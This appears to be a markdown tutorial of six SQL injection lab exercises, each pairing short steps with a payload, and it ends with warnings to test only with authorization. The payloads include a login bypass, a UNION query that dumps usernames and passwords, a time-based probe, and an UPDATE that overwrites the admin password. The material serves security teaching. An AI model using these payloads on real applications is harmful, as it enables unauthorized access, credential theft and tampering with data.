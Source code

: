 SQL injection is a common web application security vulnerability that occurs when an attacker is able to manipulate an application's SQL query by injecting malicious SQL code. Below are lab practicals to help you understand and experiment with SQL injection:

# Lab 1: Basic SQL Injection

### Steps:
- Identify a login form on a web application.
- Enter a valid username and inject SQL code into the password field (e.g., ' OR '1'='1'; --).
- Observe if the application logs you in without a correct password.

```
' OR '1'='1'; --
```

# Lab 2: Error-Based SQL Injection

### Steps:
- Identify a form that interacts with a database.
- Inject SQL code that intentionally causes an error (e.g., ' OR 1=CONVERT(int, (SELECT @@version)); --).
- Observe the error message returned by the application and extract information.
```
' OR 1=CONVERT(int, (SELECT @@version)); --
```

# Lab 3: Union-Based SQL Injection

### Steps:
- Identify a form that interacts with a database.
- Inject SQL code to perform a UNION-based attack (e.g., ' UNION SELECT username, password FROM users; --).
- Observe the combined results in the application's response.

```
' UNION SELECT username, password FROM users; --
```

# Lab 4: Blind SQL Injection (Boolean-Based)

### Steps:
- Identify a form that interacts with a database.
- Inject SQL code to perform a boolean-based attack (e.g., ' OR 1=1; -- and ' OR 1=2; --).
- Observe how the application's behavior changes based on the injected conditions.
```
' OR 1=1; --
' OR 1=2; --
```

# Lab 5: Time-Based Blind SQL Injection

### Steps:
- Identify a form that interacts with a database.
- Inject SQL code to perform a time-based blind attack (e.g., ' OR IF(1=1, SLEEP(5), 0); --).
- Observe if the application delays its response, indicating a successful injection.

```
' OR IF(1=1, SLEEP(5), 0); --
```

# Lab 6: Second-Order SQL Injection

### Steps:
- Identify an application that stores user input in a database without proper validation.
- Inject SQL code into user input and observe its effect when retrieved later in the application.

```
-- Assume the application stores the input in a database and retrieves it later
'; UPDATE users SET password='hacked' WHERE username='admin'; --
```

These payloads are intended to be injected into input fields, such as username or password fields in login forms. Note that the actual injection may vary depending on the specific context of the vulnerable web application.

Remember to use these commands responsibly, and only on systems where you have explicit permission to perform security testing. Unauthorized attempts to exploit vulnerabilities can have legal consequences.
> ## Note:
> * Always ensure that you have proper authorization before attempting any SQL injection experiments.
> * Use a controlled environment and never target systems or applications without permission.
> * Familiarize yourself with various SQL injection techniques and practice responsible disclosure when reporting vulnerabilities.*
